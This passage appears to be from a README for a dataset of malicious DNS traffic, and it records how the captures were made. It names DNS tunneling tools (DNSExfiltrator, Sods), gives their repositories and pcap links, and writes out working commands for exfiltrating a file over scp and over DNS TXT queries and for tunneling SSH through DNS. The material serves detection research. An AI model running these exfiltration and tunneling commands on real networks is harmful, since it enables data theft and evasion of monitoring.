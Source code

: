 Exfiltrate a file to remote

```
scp -P 4430 /myfile.txt root@127.0.0.1:/tmp
```

### DNSExfiltrator

Github URL: https://github.com/Arno0x/DNSExfiltrator
Qtype DNS used: TXT
Network capture: https://github.com/dmachard/datasets-malicious-dns/blob/main/dns2tcp.pcap

Start the server

```
# python2 dnsexfiltrator.py  -d hsc.fr -p password
[*] DNS server listening on port 53
[+] Decrypting using password [password] and saving to output file [Installer.exe.zip]
[+] Output file [Installer.exe.zip] saved successfully
```

Run client to exfiltrate a file

```
C:\Users\>dnsExfiltrator.exe Installer.exe hsc.fr password -b32 s=192.168.1.210
[*] Working with DNS server [192.168.1.210]
[*] Compressing (ZIP) the [Installer.exe] file in memory
[*] Encrypting the ZIP file with password [password]
[*] Encoding the data with Base32
[*] Total size of data to be transmitted: [2757608] bytes
[+] Maximum data exfiltrated per DNS request (chunk max size): [233] bytes
[+] Number of chunks: [11836]
[*] Sending 'init' request
[*] Sending data...
[*] DONE !
```

### Sods

Github URL: https://github.com/msantos/sods
Qtype DNS used: TXT, CNAME and NULL
Network capture: https://github.com/dmachard/datasets-malicious-dns/blob/main/sods.pcap

```
sudo groupadd nogroup
mkdir -p /var/chroot/sods

server


 ./sods -vvvv -L 127.0.0.1:22 -p 5353 hsc.fr
Forwarded sessions = 1
Forward #0: 127.0.0.1:22

client

sudo ./sdt -v -p 22 -r 192.168.1.210 tun.hsc.fr
listening on port = 22
session id = 22508, opt = 0, session = 0
```
